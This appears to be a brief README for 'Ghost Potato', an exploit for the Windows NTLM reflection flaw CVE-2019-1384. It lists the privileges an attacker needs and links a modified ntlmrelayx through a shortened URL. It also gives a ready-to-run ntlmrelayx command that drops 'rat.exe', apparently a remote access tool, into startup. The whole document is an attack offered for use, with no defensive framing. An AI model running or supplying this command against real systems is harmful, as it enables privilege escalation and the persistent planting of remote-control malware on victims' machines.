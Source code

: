 # Ghost Potato CVE-2019-1384

## Requirements

#### 1) User must be a member of the local Administrators group

#### 2) User must be a member of the Backup Operators group

#### 3) Token must be elevated 

### Using a modified version of ntlmrelayx: https://tinyurl.com/28udqr6s

    ntlmrelayx -smb2support --no-smb-server --gpotato-startup rat.exe
